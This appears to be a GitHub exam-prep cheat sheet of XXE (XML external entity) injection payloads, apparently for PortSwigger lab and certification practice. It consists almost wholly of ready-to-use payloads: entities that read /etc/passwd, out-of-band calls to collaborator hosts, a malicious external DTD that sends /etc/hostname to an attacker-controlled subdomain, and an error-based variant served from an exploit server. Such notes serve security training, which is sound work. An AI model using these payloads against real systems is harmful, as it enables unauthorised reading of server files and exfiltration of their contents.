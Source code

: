 # XXE



1. payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```


2.Payload

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-2.png)

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-3.png)

3.Payload


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://312d7f49j37e6gjy10vxd8qvhmndb3zs.oastify.com"> ]>

<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>

```


4.Payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://435e9g6al49f8hlz31xyf9swjnped51u.oastify.com"> %xxe; ]>

<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```


5.Payload

```
Place the Burp Collaborator payload into a malicious DTD file:
Path : https://exploiturl.com/exploit.dtd

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;



__________________________________________________________

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit.dtd"> %xxe;]>

```


6.Payload

```

Exploit server :

<!ENTITY % filepass SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; errorabc SYSTEM 'file:///invalid/%filepass;'>">
%eval;
%errorabc;


________________________________________________________________

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a63005a0340421581be65cf019500c8.exploit-server.net/exploit"> %xxe;]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```